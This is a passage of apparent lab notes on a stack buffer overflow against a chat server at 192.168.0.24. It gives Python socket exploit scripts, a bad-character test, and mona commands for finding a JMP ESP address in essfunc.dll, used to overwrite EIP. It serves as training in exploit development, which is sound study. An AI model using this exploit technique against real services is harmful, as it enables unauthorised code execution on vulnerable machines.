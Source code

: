 ```python
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + badchars + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- run and program should crash
- right click on ESP and follow in dump

**Now you know that you can overflow a buffer and potentially control execution, you need to find a function where ASLR/DEP is not enabled. Why not check the DLL file.**

- !mona modules - will find protection modules. We are looking for falses straight accross
- We can see that chatserver.exe and essfunc.dll give us falses straight accross.
- !mona find -s "\xff\xe4" -m essfunc.dll
- this finds us our jump point
- 625014DF

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
payload = b""

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + badchars + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
